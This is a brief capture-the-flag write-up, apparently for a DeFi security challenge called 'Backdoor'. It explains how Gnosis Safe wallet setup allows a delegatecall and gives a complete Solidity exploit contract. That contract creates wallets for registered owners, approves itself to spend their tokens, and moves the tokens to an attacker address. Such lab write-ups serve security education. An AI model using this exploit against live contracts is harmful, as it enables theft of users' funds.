 ```
```


### Backdoor
The objective of this challenge is:
- Transfer all `WalletRegistry` contract to the attacker.
  
The `WalletRegistry` contract doesn't appear to have any vulnerabilities, but because `GnosisSafe` wallets can make `delegatecall` when created, the challenger can create `GnosisSafe` wallets and have it approve tokens it receives from `WalletRegistry` contract.
```
<!-- Solidity -->
contract BackdoorExploit {
    function exploit(
        address[] calldata _owners,
        address _token,
        address _factory,
        address _singleton,
        IProxyCreationCallback callback,
        address attacker
    ) public {
        for (uint256 i = 0; i < _owners.length; i++) {
            address[] memory owner = new address[](1);
            owner[0] = _owners[i];
            bytes memory initializer = abi.encodeWithSignature(
                "setup(address[],uint256,address,bytes,address,address,uint256,address)",
                owner,
                1,
                address(this),
                abi.encodeWithSignature(
                    "approveToken(address,address)",
                    _token,
                    address(this)
                ),
                address(0),
                address(0),
                0,
                address(0)
            );
            address proxy = address(GnosisSafeProxyFactory(_factory).createProxyWithCallback(
                _singleton,
                initializer,
                0,
                callback
            ));
            IERC20(_token).transferFrom(proxy, address(this), 10 ether);
            IERC20(_token).transfer(attacker, 10 ether);
        }
    }
    function approveToken(address _token, address spender) external {
        IERC20(_token).approve(spender, 10 ether);
    }
}
```
